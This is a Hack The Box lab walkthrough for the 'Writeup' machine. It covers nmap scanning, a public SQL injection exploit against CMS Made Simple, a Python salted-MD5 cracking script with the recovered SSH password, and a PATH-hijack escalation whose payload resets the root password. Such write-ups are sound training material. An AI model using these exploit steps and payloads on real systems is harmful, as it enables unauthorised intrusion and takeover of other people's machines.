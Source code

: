 # Writeup (HACK THE BOX)

Hey guys today we will be doing Writeup from HackTheBox :) <br/>
<picturelogo>
<br/>

## Nmap Scan
```
[sarthak@sarthak ~]$ nmap -sV 10.10.10.138 -v -Pn
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-13 07:07 IST
NSE: Loaded 43 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 07:07
Completed Parallel DNS resolution of 1 host. at 07:07, 0.01s elapsed
Initiating Connect Scan at 07:07
Scanning 10.10.10.138 [1000 ports]
Discovered open port 80/tcp on 10.10.10.138
Discovered open port 22/tcp on 10.10.10.138
Completed Connect Scan at 07:07, 23.64s elapsed (1000 total ports)
Initiating Service scan at 07:07
Scanning 2 services on 10.10.10.138
Completed Service scan at 07:08, 6.72s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.10.138.
Initiating NSE at 07:08
Completed NSE at 07:08, 1.27s elapsed
Initiating NSE at 07:08
Completed NSE at 07:08, 0.00s elapsed
Nmap scan report for 10.10.10.138
Host is up (0.31s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.08 seconds

```
<br/>

Two services are running ..let's enumerate apache(port 80)

## Enumerating Web Server

<picture 009>
<br/>
According to the message we can see there's a dos protection waf is working which will an every ip which triggers 40x apache codes...<br/>

So rather than using dirb,gobuster,etc ...we will use burp to spider the domain ..
<br/>
<picture 010>
<br/>
Now we got a new directory named 'writeup' and i am using a really awesome extension named 'wappalyzer' which helped me to find that this directory has **cms made simple** installed...
<br/>
<picture 011>
<br/>

Now i found a blind time based sql injection whose exploit code is available 
 - [here](https://www.exploit-db.com/exploits/46635)

<br/>
<picture 007>
<br/>

```
python2 exp.py -u http://10.10.10.138/writeup/
```

I extracted the decrypt logic from the exploit and saw that before converting to md5 we have to concat it with salt so the final exploit code i created for finding password is
<br/>

```python
import hashlib

def crack_password():
    password="62def4866937f08cc13bab43bb14e6f7"
    output=""
    wordlist="rockyou.txt"
    salt="5a599ef579066807"
    dict = open(wordlist)
    for line in dict.readlines():
        line = line.replace("\n", "")
        #print(line)
        if hashlib.md5(str(salt) + line).hexdigest() == password:
            output += "\n[+] Password cracked: " + line
            print(output)
            break
    dict.close()


crack_password()
```

<br/>
The password extracted from the wordlist was *raykayjay9

## Logging into ssh

So now we have credentials
 - username:- *jkr*
 - password:- *raykayjay9*
<br/> 
<picture 012>
<br/>

## Privesc 

Downloading pspy64 to snoop on processes
<br/>
<picture 013>
<br/>

Now if a user logged in by ssh we will see some commands being executed in the server which can be seen by pspy64 binary output
<br/>
<picture 014>
<br/>
The command was ...

```
sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
```

if we break this command into chunks and try to understand what it's doing is setting up the PATH variable in which we can see  `/usr/local/sbin`  was at top which means it will be given highest priority while looking for any binary by the operating system so... 

```
run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
```

we can see  `run-parts`  is being executed and if we check the permissions of  `/usr/local/sbin`  we will notice that..

<br/>
<picture 015>
<br/>
our user is in the same group as of  `/usr/local/sbin`  so that means we can write stuff inside the  `sbin`  folder, So we will write a binary in /tmp folder with our malicious payload and give it permissions to execute and will copy it to the  `sbin`  folder...
<br/>
The payload will be..

```bash
#!/bin/bash
echo "root:pwned@123"|chpasswd
```

This will change the password of root to `pwned@123` so let's try this...
<br/>
<picture 016>
<br/>
Now we have copied the payload let's quickly log out and login back to ssh and test the credentials...
<br/>
<picture 017>
<br/>

And we rooted this box ...interesting machine it was,<br/>
<br/>
<meme>
<br/>  
If you guys liked this writeup of writeup lol stay tuned :)

